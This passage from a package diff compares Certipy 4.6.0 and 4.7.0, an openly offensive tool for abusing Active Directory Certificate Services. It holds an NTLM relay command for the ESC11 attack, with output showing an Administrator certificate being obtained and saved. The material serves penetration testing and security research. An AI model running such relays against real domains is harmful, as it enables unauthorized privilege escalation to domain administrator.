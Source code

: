  ```bash
-$ ntlmrelayx.py -t rpc://ca.corp.local -rpc-mode ICPR -icpr-ca-name corp-DC-CA -smb2support
+$ certipy relay -target 'rpc://ca.corp.local' -ca 'corp-ca'
+Certipy v4.7.0 - by Oliver Lyak (ly4k)
+
+[*] Targeting rpc://ca.corp.local (ESC11)
+[*] Listening on 0.0.0.0:445
+[*] Connecting to ncacn_ip_tcp:ca.corp.local[135] to determine ICPR stringbinding
+[*] Attacking user 'Administrator@CORP'
+[*] Template was not defined. Defaulting to Machine/User
+[*] Requesting certificate for user 'Administrator' with template 'User'
+[*] Requesting certificate via RPC
+[*] Successfully requested certificate
+[*] Request ID is 1
+[*] Got certificate with UPN 'Administrator@corp.local'
+[*] Certificate object SID is 'S-1-5-21-980154951-4172460254-2779440654-500'
+[*] Saved certificate and private key to 'administrator.pfx'
+[*] Exiting...
 ```
 
 ## Contact
 
 Please submit any bugs, issues, questions, or feature requests under "Issues" or send them to me on Twitter [@ly4k_](https://twitter.com/ly4k_).
 
 ## Credits
```

### Comparing `certipy-ad-4.6.0/README.md` & `certipy-ad-4.7.0/PKG-INFO`

 * *Files 2% similar despite different names*

```diff
@@ -1,7 +1,17 @@
+Metadata-Version: 2.1
+Name: certipy-ad
+Version: 4.7.0
+Summary: Active Directory Certificate Services enumeration and abuse
+Home-page: https://github.com/ly4k/Certipy
+Author: ly4k
+License: MIT
+Description-Content-Type: text/markdown
+License-File: LICENSE
+
 # Certipy
 
 [![Upload Python Package](https://github.com/ly4k/Certipy/actions/workflows/python-publish.yml/badge.svg)](https://github.com/ly4k/Certipy/actions/workflows/python-publish.yml)
 
 Certipy is an offensive tool for enumerating and abusing Active Directory Certificate Services (AD CS). If you're not familiar with AD CS and the various domain escalation techniques, I highly recommend reading [Certified Pre-Owned](https://posts.specterops.io/certified-pre-owned-d95910965cd2) by [Will Schroeder](https://twitter.com/harmj0y) and [Lee Christensen](https://twitter.com/tifkin_).
 
 ## Table of Contents
@@ -759,43 +769,64 @@
 [*] Saved certificate and private key to 'administrator.pfx'
 ```
 
